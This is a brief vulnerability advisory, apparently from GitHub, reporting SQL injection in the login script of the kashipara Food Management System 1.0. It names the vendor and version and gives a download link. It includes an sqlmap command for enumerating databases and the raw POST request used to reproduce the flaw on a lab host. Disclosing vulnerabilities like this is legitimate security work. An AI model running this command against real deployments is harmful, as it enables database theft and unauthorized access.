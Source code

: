 Food Management System SQL Injection Vulnerability 
Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System Manufacturer Information: www.kashipara.com/ Affected Version: 1.0 Environment: https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 

![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)
Code Analysis:
Code in D:\phpstudy_pro\WWW\chopstic1\loginCheck.php

![img](https://cdn-images-1.medium.com/max/900/1*wn2E1TSjZkpx6c2P1eD45A.png)

An attack can construct malicious input to inject arbitrary SQL statements and perform unauthorize actions.

SQLmap：

![img](https://cdn-images-1.medium.com/max/900/1*oUMPF1qmj6vxuQpMNTA_JQ.png)
 SQLMAP command: 
 sqlmap -r/home/ljk/table/1.txt--dbs --risk 3 --level 5 

 Complete data package: 

```shell
POST /chopstic1/loginCheck.php HTTP/1.1
Host: 192.168.22.236
Content-Length: 42
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://192.168.22.236
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://192.168.22.236/chopstic1/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.
Connection: close

browsername=&username=admin&password=admin
```

